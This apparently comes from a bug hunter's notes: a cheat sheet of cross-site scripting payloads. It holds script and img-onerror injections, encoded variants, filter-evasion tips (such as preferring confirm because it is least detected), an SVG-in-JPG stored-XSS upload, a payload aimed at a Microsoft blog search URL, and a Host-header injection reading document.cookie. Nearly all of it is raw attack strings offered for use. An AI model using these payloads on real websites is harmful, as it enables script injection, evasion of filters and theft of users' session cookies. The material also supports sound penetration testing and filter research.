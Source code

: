 
--'`"><img src=x><script>alert(1)</script>{{7*7}}

#"><img src=M onerror=alert('XSS');>

veris-->group<svg/onload=alert(/XSS/)//

`<img src=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">`


`<BODY ONLOAD=alert('XSS')>`

https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html




from miscrosoft bounty
d1bvs%3c%2fscript%3e%3cscript%3ealert(`XSS`)%3c%2fscript%3ec579g

# d1bvs</script><script>alert(`XSS`)</script>c579g      => encode upper payload



-   `http(s)://` can be shortened to `//` or `/\\` or `\\`.
-   `document.cookie` can be shortened to `cookie`. It applies to other DOM objects as well.
-   alert and other pop-up functions don't need a value, so stop doing `alert('XSS')` and start doing `alert()`
-   You can use `//` to close a tag instead of `>`.
-   I have found that `confirm` is the least detected pop-up function so stop using `alert`.
-   Quotes around attribute value aren't necessary as long as it doesn't contain spaces. You can use `<script src=//14.rs>` instead of `<script src="//14.rs">`
-   The shortest HTML context XSS payload is `<script src=//14.rs>` (19 chars)




‘-confirm(document.domain)-‘      -> bouny


-----

Images accessible via this storage do not properly neutralize SVG files, which can contain XSS payloads. For example, uploading the following XML inside a JPG file will serve its contents as SVG.
That's can be stored xss
```
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <rect width="200" height="200" style="fill:rgb(0,255,255);stroke-width:3;stroke:rgb(0,0,0)" />
   <script type="text/javascript">
      alert("Stored XSS!!");
   </script>
</svg>
```



[https://msrc.microsoft.com/blog/search/?query=<img/src/onerror=alert(`m3ez`)>](https://msrc.microsoft.com/blog/search/?query=%3Cimg/src/onerror=alert(`m3ez`)%3E)


X-Forwarded-Host: bing.com”>img src/onerror=prompt(document.cookie)>


